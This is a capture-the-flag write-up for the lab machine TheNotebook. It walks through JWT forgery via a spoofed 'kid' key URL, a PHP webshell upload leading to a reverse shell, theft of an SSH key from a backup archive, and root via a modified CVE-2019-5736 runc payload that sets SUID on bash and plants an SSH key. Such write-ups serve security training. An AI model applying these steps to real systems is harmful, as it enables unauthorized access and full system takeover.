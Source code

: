# TheNotebook

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.71.99  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 09:27 EDT
Nmap scan report for 10.129.71.99
Host is up (0.0081s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

### Notebook -> JWT Spoof

The website is a notebook website:

<figure><img src="../../../.gitbook/assets/image (2636).png" alt=""><figcaption></figcaption></figure>

We can create a new user because we don't have any credentials. Once created, we can login and view our notes, of which we have none:

<figure><img src="../../../.gitbook/assets/image (2886).png" alt=""><figcaption></figcaption></figure>

When the requests are viewed in Burp, we can see that it uses a JWT token and a `uuid` parameter:

{% code overflow="wrap" %}
```http
GET / HTTP/1.1
Host: 10.129.71.99
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.71.99/70e7d57d-8987-4075-9a28-2c9075219c68/notes
Connection: close
Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6InRlc3QxMjMiLCJlbWFpbCI6InRlc3RAd2Vic2l0ZS5jb20iLCJhZG1pbl9jYXAiOjB9.HOnHZHkqdPXbWn4LJrSgF4-DX0UXztaiQxefbsp0DteIvaQUtOMkAGgTvvZex0QU63vcrnXwQRTj5MLfMp1JyFHUWIS5J9slqqhXGsNNSOBQHmHlvptTLa8mvJCZJJAqymKCxGswa41Nu7hb20W3Ksi7iQSg9JcZoy9WeFV9lbEhBiSrler_H1LiSzkF-x4vegERnJiGkZ4hK_2LjVObeeY3ZCQcJWjCH3Cuo2YG1rVas4h0YBinnSq9ANvUsovpLolovsOUP4TNDPzIlccMjmhU0R_yhh5WItg0uG_PiQaACryT3G2_PYw5PRj_Dj5COrHtzYaT2NES2q54WecSJOWfD7RUW6o-yB4SFC_lJVqfqE3DljujJwGcOf8SP43kAf1z_VLGKuUkHceOsvU60aEDZDcgnJB4LTuIjqunIVzZ22lnlfHDGe1zJza8bpUVk-2xDDmqj1F3bBsCMQOXnmMmffBpSFPjsTyBwZM2F3kNEmopZiHr1S1UzeMolW98gzIrwGM8jx1lMOV76SNlK6vGP-q_UoFOg8F07aB6ClPqtbw83cyQZLn2kME40XDBzZgNgbzXmZXfnBg83mkWis9KQhOL8FJ3MPha7h0tfSnsiUXV2s7vATWXlrydpQL6gsWsuWt-cn6CQGEPAX0svar_9K8Pyd08NDJJpNdVfmg; uuid=70e7d57d-8987-4075-9a28-2c9075219c68
Upgrade-Insecure-Requests: 1

```
{% endcode %}

We can take a look at this cookie within jwt.io and see that it uses a private key hosted on the server.&#x20;

<figure><img src="../../../.gitbook/assets/image (2234).png" alt=""><figcaption></figcaption></figure>

The token is spoofable, similar to another machine Unicode. We can generate our own private key using `openssl` and use it to spoof the token by replacing the `kid` parameter with a link hosting the key instead. Also, we can change `admin_cap` to be 1.&#x20;

```bash
openssl genrsa -out priv.key 2048
```

<figure><img src="../../../.gitbook/assets/image (2323).png" alt=""><figcaption></figcaption></figure>

When we use this token after refreshing the page, we can see an Admin Panel present.&#x20;

<figure><img src="../../../.gitbook/assets/image (1161).png" alt=""><figcaption></figcaption></figure>

Then, we can view the notes of the administrator through Admin Panel > View Notes.

<figure><img src="../../../.gitbook/assets/image (3930).png" alt=""><figcaption></figcaption></figure>

Conveniently, the first note reveals that PHP files are left executable on this website.

<figure><img src="../../../.gitbook/assets/image (3326).png" alt=""><figcaption></figcaption></figure>

The admin panel also has an upload file feature:

<figure><img src="../../../.gitbook/assets/image (2856).png" alt=""><figcaption></figcaption></figure>

I uploaded a basic PHP webshell, and the page shows this:

<figure><img src="../../../.gitbook/assets/image (1130).png" alt=""><figcaption></figcaption></figure>

Using this, we can get RCE:

<figure><img src="../../../.gitbook/assets/image (3131).png" alt=""><figcaption></figcaption></figure>

And subsequently, a reverse shell.

<figure><img src="../../../.gitbook/assets/image (918).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We can't grab the user flag yet as `noah` owns it.

### Home.tar.gz

I viewed the `nginx` configuration files:

```
www-data@thenotebook:/$ cat /etc/nginx/sites-available/default
server {
        listen 80 default_server;
        root /var/www/html;
        server_name _;
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/var/run/php/php7.2-fpm.sock;
        }
        location / {
                proxy_pass http://127.0.0.1:8080/;
        }
}
```

There was nothing much there that was new. Within the `/var/backups` file, there was an extra file present:

```
www-data@thenotebook:/var/backups$ ls
apt.extended_states.0     apt.extended_states.2.gz  home.tar.gz
apt.extended_states.1.gz  apt.extended_states.3.gz
```

We can copy this folder to `/dev/shm` and open it there since we can't create new files within `/var/backups`.

```
www-data@thenotebook:/var/backups$ cp home.tar.gz /dev/shm
www-data@thenotebook:/var/backups$ cd /dev/shm
www-data@thenotebook:/dev/shm$ ls
home.tar.gz
www-data@thenotebook:/dev/shm$ tar -xvf home.tar.gz 
home/
home/noah/
home/noah/.bash_logout
home/noah/.cache/
home/noah/.cache/motd.legal-displayed
home/noah/.gnupg/
home/noah/.gnupg/private-keys-v1.d/
home/noah/.bashrc
home/noah/.profile
home/noah/.ssh/
home/noah/.ssh/id_rsa
home/noah/.ssh/authorized_keys
home/noah/.ssh/id_rsa.pub
```

We can grab the `id_rsa` file and `ssh` in as `noah`.&#x20;

### Sudo Privileges

We can check our `sudo` privileges:

```
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
noah@thenotebook:~$ docker --version
Docker version 18.06.0-ce, build 0ffa825
```

It seems that we can run docker as `root`. Googling for exploits pertaining to this version reveals a CVE that allows for RCE. This is caused by an outdated `runc` binary that is run from the container.&#x20;

{% embed url="https://github.com/Frichetten/CVE-2019-5736-PoC" %}

Download this repositroy, and we can change the payload run to something else:

{% code overflow="wrap" %}
```bash
var payload = "#!/bin/bash \n chmod u+s /bin/bash && echo 'KEY' >> /root/.ssh/authorized_keys"
```
{% endcode %}

Then we can run `go build main.go` to build it. Then, following the PoC, we can create a Docker container using the `sudo` command allowed.

```bash
sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
```

Afterwards, within the container, run the `main` binary and it will hang:

```
root@0f4c2517af40:/opt/webapp# ./main 
[+] Overwritten /bin/sh successfully
```

On a second Window, we need to run the `sudo` command one more time, and on the Docker container, it would execute properly:

{% code overflow="wrap" %}
```
root@0f4c2517af40:/opt/webapp# ./main 
[+] Overwritten /bin/sh successfully
[+] Found the PID: 3292
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc00036e060}
[+] The command executed is#!/bin/bash 
 chmod u+s /bin/bash && echo 'KEY' >> /root/.ssh/authorized_keys
```
{% endcode %}

Then, we can just `ssh` into `root`.&#x20;

<figure><img src="../../../.gitbook/assets/image (1358).png" alt=""><figcaption></figcaption></figure>

Rooted!
